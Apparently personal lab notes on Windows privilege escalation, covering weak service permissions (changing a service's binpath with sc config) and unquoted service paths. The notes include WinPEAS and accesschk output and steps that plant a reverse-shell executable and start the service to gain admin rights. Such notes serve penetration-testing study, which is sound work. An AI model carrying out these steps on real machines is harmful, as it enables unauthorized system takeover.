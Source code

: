 - Run `sc qc <service>` and then note the Binary_path_name(this can be also called as `binpath`), which we're going to change(evil smile)
- No create a playload which is of shell type and transfer it to the target machine
- Syntax to change the config, `sc config <service> <option>="<value>"`
- Now `sc config daclsvc binpath="<path>"` and now start the service `sc start daclsvc`

--------------------
### Unquoted Service Path:(USP)
- For services the path needs to be in quotes, if its not enclosed like that then we can exploit that loophole and get high privilege.
```
Vulnerability Insight: 
The Windows API must assume where to find the referenced application if the path contains spaces and is not enclosed by quotation marks. If, for example, a service uses the unquoted path:

Vulnerable Service: C:\Program Files\Ignite Data\Vuln Service\file.exe

The system will read this path in the following sequence from 1 to 4 to trigger malicous.exe through a writeable directory.

C:\Program.exe
C:\Program Files\Ignite.exe
C:\Program Files\Ignite Data\Vuln.exe
C:\Program Files\Ignite Data\Vuln Service\file.exe
```
- To get more information just use **WinPEAS** script with option `servicesinfo`, here we can see info if we can exploit any **Unquoted Service Path**, Here I ran the tool and the interesting part of output is like this,
```
unquotedsvc(Unquoted Path Service)[C:\Program Files\Unquoted Path Service\Common Files\unquotedpathservice.exe] - Manual - Stopped - No quotes and Space detected  
```
- The output here clearly specifies that **No quotes and Space Detected** so we can conclude that we can exploit this particular service using **USP**
- And to gather more information regarding service use `sc qc <service>`
- Now let's check the permission for this particular location `C:\Program Files\Unquoted Path Service` using `accesschk`, so run `accesschk.exe /accepteula -uwdq "C:\Program Files\Unquoted Path Service"`. Output:
```
accesschk.exe /accepteula -uwdq "C:\Program Files\Unquoted Path Service"
C:\Program Files\Unquoted Path Service
  Medium Mandatory Level (Default) [No-Write-Up]
  RW BUILTIN\Users
  RW NT SERVICE\TrustedInstaller
  RW NT AUTHORITY\SYSTEM
  RW BUILTIN\Administrators

```
- We have read and write permission.
- Now we'll create a payload and paste it in `C:\Program Files\Unquoted Path Service`, thru `copy reverse.exe "C:\Program Files\Unquoted Path Service\Common.exe"`, here I'm naming with a different name which has some advantage with alphabetical order as well.
- Now start the service, `sc start unquotedsvc`, we're admin!!!
